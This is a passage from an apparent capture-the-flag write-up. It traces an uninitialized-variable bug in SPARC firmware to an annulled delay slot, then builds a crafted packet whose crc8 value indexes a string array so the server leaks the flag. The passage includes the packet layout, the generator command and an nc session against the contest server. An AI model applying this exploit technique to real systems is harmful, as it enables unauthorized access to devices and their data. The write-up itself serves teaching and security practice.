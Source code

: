 So we have an uninitialized variable vulnerability coming from an annulled delay slot ! Pretty easy to miss if you're not looking hard enough.

However, how is ``%l7`` set ? Now is the time to take out my super register tainting tool: "Text Search" in IDA!

```
.text:400016A8  check_checksum          sll     %o0, 0x18, %l7
.text:400016AC  check_checksum          srl     %l7, 0x18, %l7
.text:400016B0  check_checksum          sub     %l6, %l7, %i0
.text:400016DC  clipStrIdx              mov     %i0, %l7
.text:400016E4  clipStrIdx              restore %l7, %g0, %o0
...
```

The only other non-lib function which touch ``%l7`` is ``check_checksum``, the function responsible to compute the crc8 and checking against the value supplied. So if we send an ``info`` command with a ``info_cmd`` set to 0, it will use the ``crc8`` value as index to access the string array ``CSWTCH_6``.

In order to retrieve the flag, we need to have a payload with a crc value of ``3``, just appending ``f9`` does the trick:

```
+--------+-----------------------------------------------------------------+
|        | +--------------------------------------------+ +--------------+ |
|        | |    |    |    |    |          |     |       | |    |    |    | |
|        | |cmd |cmd |crc |crc |  Cookie  |MsgId|Payload| |cmd |cmd |info| |
| msglen | |len |type|len |val |          |     |       | |len |type|cmd | |
|        | |    |    |    |    |          |     |       | |    |    |    | |
|   0f   | | 0b | 00 | 07 | 03 | de3dc846 |  1  |  f9   | | 03 | 01 | 00 | |
|        | |    |    |    |    |          |     |       | |    |    |    | |
|        | +--------------------------------------------+ +--------------+ |
+--------+-----------------------------------------------------------------+

                           NEGOCIATE_HEADER                    GET_INFO
```

```
$ python beautiful_gen_packet.py --arbitrary-payload="f9" info 0
message to send : b'0f0b00070346c83dde0001f9030100'
$ nc sun.satellitesabove.me 5043
Ticket please:
ticket{XXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX}
Configuration Server: Running
0f0b00070346c83dde0001f9030100
flag{YYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYY}
ACK
```
